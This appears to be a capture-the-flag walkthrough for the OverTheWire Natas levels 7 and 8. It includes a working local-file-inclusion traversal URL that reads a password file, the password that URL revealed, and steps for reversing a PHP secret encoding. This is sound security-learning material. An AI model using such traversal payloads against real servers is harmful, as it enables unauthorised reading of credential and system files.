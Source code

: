 ```html
<a href="index.php?page=home">Home</a>  
<a href="index.php?page=about">About</a>  
``` 

HREFs look vulnerable to LFI

```
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/natas_webpass/natas8  
```

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe  

## Natas 8

click view source  

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
``` 

A string has been encoded with the function encodeSecret.

base64_encode — Encodes data with MIME base64  
https://www.php.net/base64_encode  

strrev — Reverse a string  
https://www.php.net/manual/en/function.strrev.php   

bin2hex — Convert binary data into hexadecimal representation    
https://www.php.net/manual/en/function.bin2hex.php  

We need to create a decodeSecret function. Lets find commands to reverse the encoding.  

base64_decode  
https://www.php.net/manual/en/function.base64-decode.php  

string reverse  
https://www.php.net/manual/en/function.strrev.php  

hex2bin  
https://www.php.net/manual/en/function.hex2bin.php
